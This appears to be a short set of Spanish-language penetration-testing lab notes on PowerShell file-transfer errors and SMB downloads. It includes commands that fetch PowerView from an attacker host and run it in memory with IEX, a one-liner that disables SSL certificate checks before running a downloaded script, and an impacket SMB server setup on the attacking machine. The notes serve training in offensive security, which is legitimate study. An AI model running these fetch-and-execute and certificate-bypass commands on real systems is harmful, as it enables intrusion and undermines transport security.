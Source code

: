 -------------

# Common Errors with PowerShell

### 1. PowerShell – Error común con `Invoke-WebRequest`

- **Problema:**  
    Al usar `Invoke-WebRequest` para descargar un script, PowerShell intenta usar **Internet Explorer** para procesar la respuesta.  
    Si IE nunca se configuró (primera ejecución) o no está disponible, aparece este error:
    `The response content cannot be parsed because the Internet Explorer engine is not available...`
- **Solución:**  
    Usar el parámetro `-UseBasicParsing` para **tratar la respuesta como texto plano**, sin depender de IE:
    `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`
- **Notas:**
    - Útil cuando solo quieres **descargar y ejecutar scripts en memoria**.
    - Evita errores relacionados con IE y funciona en entornos donde IE no está configurado.

```powershell-session
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

### 2. PowerShell HTTPS Download – SSL/TLS Error**

- **Problema:** Certificado SSL no confiable al usar `DownloadString`.
- **Error típico:**
    `Could not establish trust relationship for the SSL/TLS secure channel`
    
- **Solución:** Ignorar la verificación temporalmente:
`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} IEX (New-Object Net.WebClient).DownloadString('https://<URL>')`
- **Nota:** Solo usar en entornos controlados, ya que desactiva la seguridad SSL.


----------

# SMB Downloads
- **Qué es SMB:**  
    Protocolo de red en Windows (TCP/445) para transferir archivos entre máquinas.
- **Montar un servidor SMB desde la máquina atacante:**
```
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
